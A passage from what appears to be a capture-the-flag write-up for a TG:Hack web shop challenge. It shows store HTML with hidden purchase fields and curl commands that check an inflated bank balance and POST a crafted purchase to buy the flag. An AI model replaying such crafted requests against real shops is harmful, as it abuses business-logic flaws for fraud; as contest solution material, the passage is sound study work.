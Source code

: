 ```bash
</tr>
<tr>
    <td>1337$</td>
    <td>Flag</td>
    <td>
        <form action="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store" method="POST">
            <input type="hidden" name="sum" value="1337">
            <input type="hidden" name="id" value="13">
            <input type="submit" value="Buy">
        </form>
    </td>
</tr>

            </table>
        </div>
        <div>
            
        </div>
    </body>
</html>
```

  - Step 4: Check increased balance and Buy the flag
```bash
kali@kali:~$ curl -L -X POST http://shop.tghack.no/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/bank
<html>
    <head>
        <title>Bank</title>
<style>
form {
    vertical-align:middle;
}
</style>
    </head>
    <body>
        <div><a href="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store">store</a></div>
        <div>
            <form action="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/bank" method="POST">
                <input type="text" name="borrow">
                <input type="submit" value="Borrow money">
            </form>
        </div>
        <div>
            <form action="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/bank" method="POST">
                <input type="text" name="repay">
                <input type="submit" value="Repay money">
            </form>
        </div>
        <div>
            
        </div>
        <div>
            <table><tr><td>Balance</td><td>1437$</td></tr><tr><td>Debt</td><td>0$</td></tr></table>
        </div>
    </body>
</html>
kali@kali:~$ curl -L -i -s -k -X $'POST' --data-binary $'sum=1337&id=13' $'https://shop.tghack.no/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store'
HTTP/1.1 200 OK
```